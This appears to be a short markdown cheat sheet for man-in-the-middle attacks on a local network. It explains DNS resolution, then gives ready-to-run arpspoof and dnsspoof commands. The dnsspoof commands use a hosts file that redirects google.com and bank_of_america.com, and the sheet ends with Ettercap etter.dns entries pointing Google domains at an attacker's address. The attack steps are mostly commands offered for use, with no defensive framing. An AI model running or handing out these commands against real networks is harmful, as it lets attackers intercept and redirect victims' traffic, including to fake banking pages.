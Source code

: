 # the1way called just spoofing target like : arpspoof -i wlan0  -t 192.168.1.2 -r 192.168.1.1 &
# without spoofing the another host[s] for him

--------------------------------------------------------

# Dnsspoofing 

### Concept :

Machine A said ‘ping google.com’
Now it has to find that IP address of google.com
So it queries the DNS server with regard to the IP address for the domain google.com
The DNS server will have its own hierarchy, and it will find the IP address of google.com and return it to Machine A
with dnsspoofing we will replay with our dns repsonse which contain another ip 

----


# 1) - with dnsspoof binary


* dnsspoof -i <interface> -f <fileof_hosts_2_spoof> host <target host> and udp port <port number>

1- first poisoning target's ArpCache 

printf "127.0.0.1\tgoogle.com\n127.0.0.1\tbank_of_america.com" > /tmp/dns_to_spoof.txt 
	* dnsspoof -i wlan0 -f /tmp/dns_to_spoof.txt udp port 53

printf "127.0.0.1\tgoogle.com\n127.0.0.1\tbank_of_america.com" > /tmp/dns_to_spoof.txt 
	* dnsspoof -i wlan0 -f /tmp/dns_to_spoof.txt host 192.168.1.2 udp port 53


-----------------------------------

# 2) - with Ettercap


1- Open the /usr/share/ettercap/etter.dns in the 122 machine and add the following,

# i use google here as Example

*.google.co.in A 192.168.1.12
*.google.com A 192.168.1.12
google.com A 192.168.1.12

www.google.com PTR 192.168.1.12
www.google.co.in PTR 192.168.1.12
